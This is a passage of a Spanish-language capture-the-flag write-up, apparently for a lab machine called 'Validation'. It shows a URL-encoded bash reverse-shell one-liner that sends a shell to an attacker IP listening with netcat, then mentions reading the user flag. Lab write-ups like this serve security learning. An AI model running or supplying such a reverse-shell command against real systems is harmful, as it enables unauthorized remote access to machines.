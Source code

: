 Disponiendo de ejecución de comandos:

![Untitled](/assets/img/Validatio/Untitled25.png)

Nos lanzaremos una consola a nuestra máquina atacante que estará en escucha a través de netcat

```bash
bash -c "bash -i >%26 /dev/tcp/10.10.14.7/443 0>%261"
```

![Untitled](/assets/img/Validatio/Untitled26.png)

![Untitled](/assets/img/Validatio/Untitled27.png)

Obteniendo:

![Untitled](/assets/img/Validatio/Untitled28.png)

Disponemos de una consola interactiva correspondiente a la máquina víctima

Listando la flag `user.txt`

![Untitled](/assets/img/Validatio/Untitled29.png)
